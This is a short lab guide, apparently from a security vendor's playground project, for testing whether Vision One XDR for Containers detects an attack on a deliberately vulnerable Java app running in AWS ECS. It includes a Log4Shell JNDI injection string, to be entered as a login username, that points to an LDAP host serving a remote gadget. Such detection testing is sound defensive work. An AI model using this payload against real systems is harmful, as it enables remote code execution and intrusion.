

# Scenario: Vision One XDR for Containers Detect Malware Upload

## Prerequisites

- Vision One XDR for Containers linked with Playground One VPC
- Playground One ECS Cluster (Any variant)
  - Running app: Java-Goof running on vulnerable Tomcat

Ensure to have an ECS Cluster up and running:

```sh
pgo --apply ecs
```

## Exploiting

First, retrieve the load balancer DNS name

```sh
pgo -o ecs
```

Example output with ECS EC2:

```sh
cluster_name_ec2 = "playground-ecs-ec2"
loadbalancer_dns_ec2 = "playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com"
```

If you are using ECS Fargate, the variable is named `loadbalancer_dns_fargate`.

### Exploit

Navigate to <http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com/todolist>

Click `[Sign in]`

- Username: `${jndi:ldap://host.docker.internal:9999/Commons2}`
- Password: `does not matter`

Vision One Observed Attack Techniques:



> ***Note:*** The currently deployed app is not vulnerable for Log4j, the technique from above still triggers the exploitation attempt.
